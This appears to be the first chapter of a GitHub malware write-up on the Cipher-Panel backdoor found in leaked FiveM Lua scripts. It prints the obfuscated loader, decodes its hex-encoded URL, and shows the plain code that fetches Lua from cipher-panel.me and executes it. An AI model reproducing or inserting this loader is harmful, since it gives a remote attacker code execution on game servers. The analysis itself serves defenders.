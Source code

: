 ## Chapter 1 (Original Infection)
This chapter contains the breakdown of the original infection code used by Cipher-Panel.

### Introduction
The original infection code is a very simple snippet of code that can be inserted into any FiveM script that is used as a payload to download the malicious code.

The normal method for the sharing of this is through leaked scripts uploaded by users that only intend to gain access and extort people for money.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```

Just from looking at this code, we can gather a fair amount of information.
  - The code is designed to look clean by using function names that aren't associated with malicious code such as **random_char**.
  - They are hiding function names encoded with UTF-8 in an array that they convert rather than keeping function names in all of the malicious functions.

This being said we have to map the values to better understand the code. This is done by turning `Enchanced_Tabs[13]` into the corresponding index in the UTF-8 encoded array. We will also take this chance to normalize the field names and remove the junk code used to obscure the real functionality.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Encoded: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Plain Text: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
Enchanced_Tabs[10] = PerformHttpRequest;
Enchanced_Tabs[11] = assert; (Junk Code)
Enchanced_Tabs[12] = server; (Junk Code)
Enchanced_Tabs[13] = load; (Junk Code)
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

#### Final Mapped Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

The final mapped code continuously makes an HTTP request to an endpoint that is provided to paid users by Cipher-Panel. This endpoint can't be accessed normally as they have Cloudflare page rules set up to only accept the User-Agent that FiveM makes HTTP requests with (FXServer/PerformHttpRequest). The responseBody field returns the body from the endpoint that contains lua code for the next step of this fuck fest.

[Chapter 2 (What's obfuscation anyways?)](https://github.com/ericstolly/)
